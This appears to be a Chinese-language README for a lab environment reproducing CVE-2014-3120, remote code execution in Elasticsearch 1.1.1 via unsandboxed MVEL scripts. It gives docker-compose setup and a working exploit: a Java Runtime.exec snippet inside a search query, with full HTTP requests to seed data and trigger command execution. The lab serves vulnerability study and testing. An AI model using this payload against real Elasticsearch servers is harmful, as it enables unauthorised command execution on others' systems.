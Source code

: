 # ElasticSearch 命令执行漏洞（CVE-2014-3120）测试环境

jre版本：openjdk:8-jre

elasticsearch版本：v1.1.1

## 原理

相关文档：http://bouk.co/blog/elasticsearch-rce/ 、 https://www.t00ls.net/viewthread.php?tid=29408

老版本ElasticSearch支持传入动态脚本（MVEL）来执行一些复杂的操作，而MVEL可执行Java代码，而且没有沙盒，所以我们可以直接执行任意代码。

MVEL执行命令的代码如下：

```java
import java.io.*;
new java.util.Scanner(Runtime.getRuntime().exec("id").getInputStream()).useDelimiter("\\A").next();
```

## 漏洞测试

编译及运行环境：

```
docker-compose up -d
```

将Java代码放入json中：

```json
{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }
    }
  }
```

首先，该漏洞需要es中至少存在一条数据，所以我们需要先创建一条数据：

```
POST /website/blog/ HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

{
  "name": "phithon"
}
```

然后，执行任意代码：

```
POST /_search?pretty HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 343

{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }
    }
}
```

结果如图：

![](1.png)
